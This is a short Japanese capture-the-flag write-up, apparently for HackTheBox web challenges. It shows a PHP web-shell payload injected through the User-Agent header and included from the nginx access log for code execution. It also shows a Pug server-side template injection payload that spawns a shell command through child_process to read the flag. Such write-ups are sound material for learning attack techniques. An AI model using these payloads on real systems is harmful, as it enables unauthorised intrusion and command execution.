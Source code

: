```nginx
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```

log に UA が含まれており、ファイルの場所もわかるため、RCE が可能になる。  
UA を以下のようにする。  
```php
<?php echo "<pre>";system($_GET['cmd']); echo "</pre>" ?>;
```
`page=/var/log/nginx/access.log&cmd=cat $(ls /flag*)`

`HTB{m1ss10n_4c0mpl1sh3d}`
# IMF - The Search

default.route.js をみると以下のようなルーティングがある。  
```js
defaultRoutes.route('/').post( (req, res) => {
	let name = req.body.name;
	let search = name.replace(/[.*+?^${}()|[\]\\]/g, '\\$&'); 
	if (typeof name !== 'undefined' && name != "") {
		query = { name : {$regex: search, $options: "i"} };
		Agent.find(query,  (err, agents) => {
			if (err) {
				console.log(err);
				return res.json(err);
			} else {
				return res.render('index', { agents: agents, name: pug.render(`| ${name}`) });
			}
		});
	} else {
		return res.redirect('/');
	}
});
```

pug render に直接外部入力が入っているので、SSTIができる  
先頭に `|` があるため改行コードをはさむ必要がある。  
`%0a#{7*7} = 49`のようなリクエストを送る。
以下の payload で RCE する  
```js
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('cat $(ls /flag*)')}()}
```

`HTB{SST1_by_f0rc3}`
# Userland City
>ソースコード無し。
